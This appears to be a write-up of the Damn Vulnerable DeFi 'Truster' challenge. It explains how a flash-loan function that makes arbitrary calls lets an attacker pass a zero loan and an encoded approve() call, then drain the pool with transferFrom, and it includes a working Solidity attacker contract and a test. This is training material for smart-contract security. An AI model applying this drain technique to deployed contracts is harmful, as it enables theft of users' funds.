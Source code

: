 ## The Exploit

The vulnerability creates a pathway to drain all funds from the pool in a single transaction. Here's the attack strategy:

1. Call the `flashLoan` function with:
   - `amount = 0` (we don't need to borrow any tokens)
   - `borrower = attacker` (can be any address)
   - `target = token address` (we'll call the token directly)
   - `data = encoded call to approve(attacker, TOTAL_AMOUNT)` (granting ourselves approval to spend the pool's tokens)

2. After this call, we'll have permission to transfer all tokens from the pool
3. Use `transferFrom` to move all tokens from the pool to the recovery address

Let's implement this exploit:

```solidity
// Attacker contract to execute the exploit in a single transaction
contract TrusterAttacker {
    function attack(
        address poolAddress,
        address tokenAddress,
        address recoveryAddress,
        uint256 amount
    ) external {
        // Cast to appropriate contract types
        TrusterLenderPool pool = TrusterLenderPool(poolAddress);
        DamnValuableToken token = DamnValuableToken(tokenAddress);

        // Prepare data for the approve function call
        bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)",
            address(this),  // Approve our contract
            amount
        );

        // Execute the flash loan with malicious data
        pool.flashLoan(0, address(this), tokenAddress, data);

        // Transfer all tokens to the recovery address
        token.transferFrom(poolAddress, recoveryAddress, amount);
    }
}

// In the test function
function test_truster() public checkSolvedByPlayer {
    // Deploy the attacker contract before player actions start
    TrusterAttacker attacker = new TrusterAttacker();

    // The checkSolvedByPlayer modifier activates vm.startPrank(player) here

    // Call the attack function which executes everything in a single transaction
    attacker.attack(
        address(pool),
        address(token),
        recovery,
        TOKENS_IN_POOL
    );
}
```
